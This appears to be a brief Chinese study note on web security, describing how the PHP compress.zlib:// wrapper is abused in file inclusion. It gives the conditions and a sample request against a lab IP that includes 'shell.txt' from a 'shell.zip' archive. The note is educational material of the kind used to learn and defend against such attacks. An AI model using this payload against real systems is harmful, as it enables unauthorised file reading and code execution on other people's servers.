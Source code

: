 1. 用途

   * 读取压缩包内的文件

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   ```php
   [URL]?file=compress.zlib://shell.zip#shell.txt
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=compress.zlib://shell.zip#shell.txt
   ```

![compress：zlib](../../../../我的坚果云/网安/images/9-07-morning/compress：zlib.png)

![其他PHP伪协议的使用](../../../../我的坚果云/网安/images/9-07-morning/其他PHP伪协议的使用.png)

